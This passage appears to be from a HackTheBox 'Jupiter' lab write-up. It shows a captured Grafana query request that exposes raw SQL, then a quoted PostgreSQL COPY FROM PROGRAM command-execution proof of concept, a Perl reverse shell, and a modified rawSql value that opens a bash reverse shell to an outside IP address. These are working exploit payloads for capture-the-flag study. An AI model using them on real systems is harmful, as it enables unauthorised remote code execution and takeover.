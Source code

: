 I saw the request:

~~~
POST /api/ds/query HTTP/1.1
Host: kiosk.jupiter.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://kiosk.jupiter.htb/d/jMgFGfA4z/moons?orgId=1&refresh=1d
content-type: application/json
x-dashboard-uid: jMgFGfA4z
x-datasource-uid: YItSLg-Vz
x-grafana-org-id: 1
x-panel-id: 24
x-plugin-id: postgres
Origin: http://kiosk.jupiter.htb
Content-Length: 484
Connection: close

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select \n  name as \"Name\", \n  parent as \"Parent Planet\", \n  meaning as \"Name Meaning\" \nfrom \n  moons \nwhere \n  parent = 'Saturn' \norder by \n  name desc;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":938}],"range":{"from":"2023-06-12T23:02:44.224Z","to":"2023-06-13T05:02:44.224Z","raw":{"from":"now-6h","to":"now"}},"from":"1686610964224","to":"1686632564224"}
~~~

Found rawsql.!!! may be sql Injection..!!

i googled for the hints also for further enumeration...!!!!!

Found this : https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce

~~~
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
~~~

This is the PoC , we are going to use,

We have to modify the request , 

~~~
"rawSql":"CREATE TABLE cmd_cf(cmd_output text); COPY cmd_cf FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.14.158/54321 0>&1\"'",
~~~
